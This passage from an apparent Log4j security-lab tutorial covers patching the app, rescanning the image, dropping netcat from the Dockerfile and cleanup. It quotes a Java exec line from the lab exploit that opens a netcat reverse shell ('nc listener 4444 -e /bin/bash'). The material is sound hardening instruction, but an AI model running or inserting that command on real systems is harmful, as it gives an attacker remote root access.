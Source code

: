     ```
    grype docker-archive:images/app-fixed.tar
    ```
4. Repeat the exploitation steps from section 3, do you get remote code exeuction this time?  What happens?

### Summary

In this section we;

- Updated the Log4j dependencies in our application
- Optionally removed the logging lines
- Performed a vulnerability scan on our application and container image
- Attempted exploitation of the vulnerability to confirm it has been resolved

## 5. Reducing our Dependencies (Outcome 2.4)

Let's go back to our vulnerable application's `app/Dockerfile` file and check if we're using all of the dependencies we've downloaded. This line is interesting... don't we use netcat in our exploitation?

```Dockerfile
RUN apt-get update && apt-get install -y netcat
```

Do we even use netcat in our vulnerable application? Let's check. If we look at our vulnerability application's run file `app/src/main/java/co/vgw/techtonic/Main.java` and do a `Ctrl+F` for `netcat`, we can see that our application doesn't even use netcat! So let's go ahead and remove that installation line from the Dockerfile.

Now let's double if our suspicions are correct and have a look at our exploitation file `exploit/src/main/resources/exploit/Exploit.java`. On line 9 we can see the following code.

```
java.lang.Runtime.getRuntime().exec("nc listener 4444 -e /bin/bash").waitFor();
```

We were right! This line executes a netcat command on our vulnerable container to initiate the reverse shell connection (exploitation) to our own machine, giving us access to the vulnerable container with root privileges! If that hadn't been installed on the vulnerable container, that command would not have worked. So even though netcat does not contain the vulnerability we're exploiting, the installation gave us a pathway to initiate the reverse shell connection using the log4j vulnerability.

Try running `syft packages docker-archive:images/app-fixed.tar` what other applications and utilities are installed and included in our container image that we likely don't need?

There are open source projects such as [Distroless](https://github.com/GoogleContainerTools/distroless) which focus on building a bare minimum container image for your application runtime.

## 7. Cleanup

 Shut down your running containers, in the terminal with the application logs, type `Ctrl+C`.  Then enter `docker-compose down` to remove all resources.

The container images can be removed from docker with;
